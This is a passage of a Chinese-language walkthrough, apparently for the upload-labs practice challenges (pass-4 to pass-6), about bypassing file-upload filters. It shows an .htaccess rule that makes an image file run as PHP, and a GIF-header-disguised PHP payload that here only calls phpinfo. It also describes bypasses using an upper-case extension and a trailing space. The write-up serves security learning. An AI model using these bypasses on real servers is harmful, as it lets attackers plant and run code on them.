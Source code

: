 ```php
<FilesMatch "pass-4.png"> 
SetHandler application/x-httpd-php
</FilesMatch>
```

写入shell

```php
GIF89a
<?php phpinfo()?>
```

​![image-20240903164111-ggd63l0](assets/image-20240903164111-ggd63l0.png)​

​![image](assets/image-20240904110653-4dyv4qm.png)​

## pass-5

windows对大小写不敏感所以直接大写文件后缀上传。

​![image-20240903171959-fh1kv6c](assets/image-20240903171959-fh1kv6c.png)​

​![image-20240903171915-porpful](assets/image-20240903171915-porpful.png)​

## pass-6

使用空格绕过

​![image-20240903173449-g6b3j6p](assets/image-20240903173449-g6b3j6p.png)​

​![image-20240903173430-0sz3vtx](assets/image-20240903173430-0sz3vtx.png)​

